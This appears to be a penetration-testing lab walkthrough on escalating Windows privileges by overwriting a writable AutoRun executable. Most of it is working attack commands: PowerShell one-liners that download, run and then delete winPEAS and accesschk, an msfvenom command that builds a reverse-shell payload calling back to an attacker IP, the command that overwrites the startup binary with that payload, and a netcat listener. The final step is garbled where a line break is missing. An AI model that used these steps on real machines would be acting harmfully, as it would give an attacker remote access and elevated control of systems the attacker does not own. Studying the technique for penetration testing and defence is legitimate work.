

AutoRuns
• Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry
• These AutoRuns are also a type of malware(persistent backdoor)
What we need to escalate privileges:
◇ able to write to an AutoRun executable
◇ we are able to restart the system (or wait for it to be restarted)
0. WinPEAS generally check for service misconfigurations: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet applicationsinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

1. enumerate the AutoRun executables:
◇ reg query, check manually:
C:\> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

◇ WinPEAS, check with tool: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet applicationsinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

2. Verify permissions of the executables:
When we have a list of AutoRun program, for each one we need to verify its permissions on the executables
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";
How we can see in this case the “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone
3. Create a backup of the original executables:
C:\> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
4. Create a reverse shell executable with msfvenom
root@kali:/# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.147.139 LPORT=53 -f exe -o reverse.exe

5. Copy our reverse shell executable to overwrite the AutoRun executable:
C:\> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
6. Start a listener on Kali
root@kali:/# nc -nvlp 537. restart the target Windows machine to trigger the exploit.
Note on Windows 10: when the system restarts it seems to run the AutoRun commands with the privileges of the last logged on user.
In our TEST scenario we can avoid the issue by log out from the “user” account and log in as the “admin” account first.